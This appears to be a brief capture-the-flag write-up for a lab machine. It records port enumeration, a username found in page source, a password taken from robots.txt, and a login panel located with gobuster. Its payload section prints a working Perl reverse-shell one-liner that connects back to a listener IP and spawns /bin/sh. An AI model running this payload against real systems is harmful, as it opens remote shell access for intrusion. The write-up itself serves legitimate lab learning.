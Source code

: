 # Enumeration 
## Nmap
Two ports open
1. http
2. ssh
## Web app
- On the main website's source code found username `R1ckRul3s`.
- In the robots.txt file unknown phrase `Wubbalubbadubdub`
- Found login.php with gobuster and used the above username and password to login and the login was successfull.
- There was a command panel which can be exploited for reverse shell.
- Used paylod
```php
perl -e 'use Socket;$i="10.17.39.205";$p=53;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
- Stabilised the shell and gained root access as root was allowed without passwd.
